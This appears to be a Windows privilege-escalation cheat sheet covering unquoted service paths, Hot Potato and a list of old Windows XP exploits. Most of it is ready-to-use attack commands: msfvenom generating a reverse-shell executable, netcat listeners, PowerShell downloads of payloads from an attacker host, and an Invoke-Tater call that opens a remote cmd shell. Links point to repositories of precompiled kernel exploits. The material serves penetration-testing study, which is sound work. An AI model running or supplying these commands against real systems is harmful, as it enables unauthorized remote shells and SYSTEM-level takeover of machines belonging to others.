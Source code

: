 ServiceName    : unquotedsvc
Path           : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
ModifiablePath : @{Permissions=System.Object[]; ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'unquotedsvc' -Path <HijackPath>
CanRestart     : True
or

winPEAS.exe

[+] Interesting Services -non Microsoft-(T1007)

unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - No quotes and Space detected
Exploitation
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > Common.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
cd "C:\Program Files\Unquoted Path Service\"
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/Common.exe', '.\Common.exe')
sc start unquotedsvc
Hot potato
Exploitation
# Attacker
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/nc.exe', '.\nc.exe')
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/Tater.ps1.exe', '.\Tater.ps1.exe')
powershell -exec bypass -command "& { Import-Module .\Tater.ps1; Invoke-Tater -Trigger 1 -Command '.\nc.exe <IP> <PORT> -e cmd.exe' }"
CVE
# Already compiled exploit
https://github.com/SecWiki/windows-kernel-exploits
https://github.com/abatchy17/WindowsExploits
Windows XP
CVE	Description
CVE-2002-1214	ms02_063_pptp_dos - exploits a kernel based overflow when sending abnormal PPTP Control Data packets - code execution, DoS
CVE-2003-0352	ms03_026_dcom - exploits a stack buffer overflow in the RPCSS service
CVE-2003-0533	MS04-011 - ms04_011_lsass - exploits a stack buffer overflow in the LSASS service
CVE-2003-0719	ms04_011_pct - exploits a buffer overflow in the Microsoft Windows SSL PCT protocol stack - Private communication target overflow
CVE-2003-0812	ms03_049_netapi - exploits a stack buffer overflow in the NetApi32
CVE-2003-0818	ms04_007_killbill - vulnerability in the bit string decoding code in the Microsoft ASN.1 library
CVE-2003-0822	ms03_051_fp30reg_chunked - exploit for the chunked encoding buffer overflow described in MS03-051
CVE-2004-0206	ms04_031_netdde - exploits a stack buffer overflow in the NetDDE service
CVE-2010-3138	EXPLOIT-DB 14765 - Untrusted search path vulnerability - allows local users to gain privileges via a Trojan horse
